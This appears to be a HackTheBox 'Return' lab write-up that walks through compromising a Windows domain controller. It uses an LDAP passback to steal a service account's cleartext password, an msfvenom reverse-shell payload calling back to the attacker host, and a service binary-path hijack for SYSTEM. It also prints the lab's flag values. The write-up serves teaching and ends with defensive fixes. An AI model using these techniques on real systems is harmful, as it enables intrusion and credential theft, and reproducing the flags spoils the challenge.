




import Toggle from '@components/Toggle.astro';
import Callout from '@components/Callout.astro';
import FlagCapture from '@components/FlagCapture.astro';

<div class="machine-meta">
  <span class="meta-badge platform-hackthebox">HackTheBox</span>
  <span class="meta-badge difficulty-easy">Easy</span>
  <span class="meta-badge os-windows">Windows</span>
</div>

> A printer admin panel that authenticates to any server you point it at, leaking a domain password, then a service binary swap as a member of Server Operators for SYSTEM.

## Recon

> Goal: Identify exposed services and attack surface.

A box starts with one question: what is listening, and what is it running. First, confirm the host is up.

<Toggle label="Host reachability <code>ping</code>">

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Return]
└─> ping 10.129.19.227
PING 10.129.19.227 (10.129.19.227) 56(84) bytes of data.
64 bytes from 10.129.19.227: icmp_seq=1 ttl=127 time=69.6 ms
64 bytes from 10.129.19.227: icmp_seq=2 ttl=127 time=71.3 ms
64 bytes from 10.129.19.227: icmp_seq=3 ttl=127 time=69.0 ms
64 bytes from 10.129.19.227: icmp_seq=4 ttl=127 time=69.3 ms
--- 10.129.19.227 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3064ms
rtt min/avg/max/mdev = 68.972/69.799/71.269/0.878 ms
```

</Toggle>

The `ttl=127` is the first tell (a Windows default of 128, minus one hop). The scan fills in the rest.

<Toggle label="Service & version enumeration <code>nmap</code>">

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Return]
└─> nmap -sC -sV 10.129.19.227
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-30 10:49 -0400
Nmap scan report for 10.129.19.227
Host is up (0.087s latency).
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

</Toggle>

An aggressive scan added nothing the service sweep had not: Windows Server 2019, no exact OS fingerprint, the same ports. So I read the ports instead.

<Callout type="recon">

- <span class="port-label">53/tcp</span> : DNS (Simple DNS Plus)
- <span class="port-label">88/tcp</span> : Kerberos
- <span class="port-label">389/tcp</span> : LDAP, domain `return.local`
- <span class="port-label">445/tcp</span> : SMB
- <span class="port-label">5985/tcp</span> : WinRM, a shell waiting on valid credentials

The spread (DNS, Kerberos, LDAP, global catalog) says domain controller, not workstation. The one human-facing surface is the IIS app on <span class="port-label">80/tcp</span>: an *HTB Printer Admin Panel*. On an AD box, a custom appliance that talks to the directory is the soft spot worth opening first.

</Callout>

---

## Web Enumeration

> Goal: Fingerprint the web application and find a configurable surface.

Before the site behaves, the hostname has to resolve. Map it in `/etc/hosts`:

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Return]
└─> sudo nano /etc/hosts
# Add the following line
10.129.19.227  return.local
```

With the name resolving, `return.local` loads the panel itself.


*The IIS site on port 80: an HTB Printer Admin Panel. A configurable appliance is exactly the kind of thing that stores a credential somewhere it can reach.*

The `Settings` tab is where that guess pays off.


*The settings expose the printer's LDAP bind: a server address, port 389, the svc-printer username, and a password it reuses on every connection.*

A device that holds a directory password and lets me edit where it sends that password is the whole machine in one form.

---

## Foothold: LDAP Credential Passback

> Goal: Coerce the printer's LDAP bind to leak domain credentials.

The bind is configurable and unvalidated, so I do not need to read the stored password. I just need the printer to send it to me. I change the `Server Address` to my own host, leave the port at 389, save, and start a listener. The printer authenticates to me instead of the real directory. Ritorno al mittente.


*Pointing the server address at my own host while leaving the port at 389. The next bind attempt lands on my listener.*

<Callout type="vuln">

The panel stores an LDAP bind and connects to whatever **Server Address** you save, with no check that the target is the real directory server. Point it at an attacker host on port 389 and the printer authenticates outbound in cleartext, spilling `svc-printer`'s domain password straight onto the wire. The appliance trusts its own configuration field far more than it should.

</Callout>

I hit `Update` and watch the listener catch the bind.

<Toggle label="Catching the cleartext bind <code>nc</code>">

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Return]
└─> nc -lvnp 389
listening on [any] 389 ...
connect to [10.10.14.87] from (UNKNOWN) [10.129.19.227] 50371
0*`%return\svc-printer
                      1edFg43012!!
```

</Toggle>

There it is, in plaintext: the `svc-printer` account and its password, handed over by a printer that was only ever asked to log in somewhere new.

<Callout type="loot">

- `svc-printer` : `1edFg43012!!` (domain account, leaked over LDAP, also valid for WinRM)

</Callout>

Before trusting the capture, I confirm where those credentials actually work with NetExec.

<Toggle label="Validating the credentials <code>nxc</code>">

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Return]
└─> nxc ldap 10.129.19.227 -u svc-printer -p '1edFg43012!!'
LDAP   10.129.19.227   389    PRINTER   [*] Windows Server 2019 Build 17763 (name:PRINTER) (domain:return.local)
LDAP   10.129.19.227   389    PRINTER   [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)

┌──(Idan@Kali)-[~/Return]
└─> nxc winrm 10.129.19.227 -u svc-printer -p '1edFg43012!!'
WINRM  10.129.19.227   5985   PRINTER   [*] Windows Server 2019 Build 17763 (name:PRINTER) (domain:return.local)
WINRM  10.129.19.227   5985   PRINTER   [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```

</Toggle>

The `(Pwn3d!)` on WinRM is the green light: port 5985 is open and this account is allowed through it. Evil-WinRM turns that into an interactive session.

<Toggle label="Interactive session <code>evil-winrm</code>">

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Return]
└─> evil-winrm -i 10.129.19.227 -u svc-printer -p '1edFg43012!!'

Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
```

</Toggle>

That is the foothold. The user flag sits on `svc-printer`'s Desktop, one `type` away.

### <span class="task-title">User Flag</span>

<FlagCapture type="user" flag="4fdcd4750ec4fad64ee0e0a9ba9074b8" />

---

## Privilege Escalation

> Goal: Exploit misconfigurations to gain higher-level access to the system.

Two questions drive the climb to SYSTEM: what privileges does this token carry, and which group memberships can I abuse.

### Enumerating the Account's Privileges

The token answers the first question on its own.

<Toggle label="Token privileges <code>whoami /priv</code>">

```powershell frame="code" title="PowerShell"
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
```

</Toggle>

`SeBackupPrivilege`, `SeRestorePrivilege`, and the shutdown rights together are the signature of a Server Operators token. BloodHound confirms the membership and shows what else `svc-printer` belongs to.

<Toggle label="Mapping the domain <code>bloodhound-python</code>">

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Return]
└─> bloodhound-python -d return.local -u svc-printer -p '1edFg43012!!' -c All -ns 10.129.19.227 --zip
INFO: Found AD domain: return.local
INFO: Connecting to LDAP server: printer.return.local
INFO: Found 5 users
INFO: Found 52 groups
INFO: Found 1 computers
INFO: Compressing output into 20260330122425_bloodhound.zip
```

</Toggle>


*BloodHound confirms the lever: svc-printer is a member of Server Operators, the group allowed to reconfigure and restart Windows services.*

<Callout type="intel">

- `svc-printer` holds `SeBackupPrivilege`, `SeRestorePrivilege`, and the remote-shutdown rights that mark a **Server Operators** token.
- Server Operators may reconfigure and restart any Windows service, and services run as **LocalSystem**. Controlling a service binary is controlling SYSTEM.
- The target is `vss` (Volume Shadow Copy): a normal, always-present service whose binary path I can rewrite.

</Callout>

### Hijacking the vss Service

The plan is direct: build a payload, repoint `vss` at it, and restart the service so LocalSystem runs my binary. First the payload, with `msfvenom`.

<Toggle label="Building the payload <code>msfvenom</code>">

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Return]
└─> msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.87 lport=8888 -f exe -o reverse.exe
Payload size: 460 bytes
Final size of exe file: 7680 bytes
Saved as: reverse.exe
```

</Toggle>

Back in the WinRM session I upload that binary, read the current service config, then rewrite its binary path. The one line that matters in the config is `SERVICE_START_NAME : LocalSystem`, which is exactly why this works.

<Toggle label="Repointing and starting the service <code>sc.exe</code>">

```powershell frame="code" title="PowerShell"
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> upload reverse.exe
Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe qc vss
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: vss
        BINARY_PATH_NAME   : C:\Windows\system32\vssvc.exe
        SERVICE_START_NAME : LocalSystem

*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe config vss binpath="C:\Users\svc-printer\Desktop\reverse.exe"
[SC] ChangeServiceConfig SUCCESS

*Evil-WinRM* PS C:\Users\svc-printer\Desktop> sc.exe start vss
```

</Toggle>

Starting the service launches the swapped binary, and the listener catches a shell running as LocalSystem.

<Toggle label="Catching the shell and confirming SYSTEM <code>whoami</code>">

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Return]
└─> penelope -p 8888
[+] Listening for reverse shells on 0.0.0.0:8888
[+] Got reverse shell from PRINTER~10.129.19.227-Windows_Server_2019-x64  Assigned SessionID <1>
──────────────────────────────────────────────────────────────────────────────
C:\Windows\system32> whoami
nt authority\system
C:\Windows\system32> cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop> type root.txt
<root flag>
```

</Toggle>

A service the printer account was never meant to touch hands back the Administrator's desktop, and root with it.

### <span class="task-title">Root Flag</span>

<FlagCapture type="root" flag="2ed9b647b2ad8ee22afa5adadb5dd07f" />

---

## Summary

The whole path in one breath: the printer admin panel on port 80 lets me change the LDAP server it authenticates to, so I point it at my own listener and it sends `svc-printer`'s domain password back in cleartext. Those credentials open a WinRM shell and the user flag with it. From there, `svc-printer`'s membership in Server Operators lets me rewrite the binary path of the `vss` service and restart it. Because the service runs as LocalSystem, the swapped binary returns a shell as `nt authority\system`.

---

## Reflection

Three lessons, one per stage of the chain:

1. **An appliance should not trust its own configuration field.** The printer authenticated to whatever address an operator saved, with no check that the target was the legitimate directory. A user-controllable destination for privileged credentials is a passback waiting to happen. Validate the target, or do not store a reusable bind at all.
2. **Cleartext LDAP puts secrets on the wire.** The bind used plain LDAP on 389, so a single redirect was enough to read the password straight off the connection. Enforcing LDAPS with channel binding would have turned the captured traffic into noise.
3. **Server Operators is administrator by another name.** The group can reconfigure and restart services, and services run as LocalSystem. Granting a service account that membership collapses the gap between a low-privilege login and SYSTEM. Privileged service control belongs only with accounts already trusted as admin.

<Callout type="defense">

Stop storing a reusable LDAP bind in a web-editable field, force LDAPS with signing and channel binding so a captured connection reveals nothing, and pull `svc-printer` out of Server Operators so it can no longer rewrite a service binary. Any one of these breaks the chain.

</Callout>
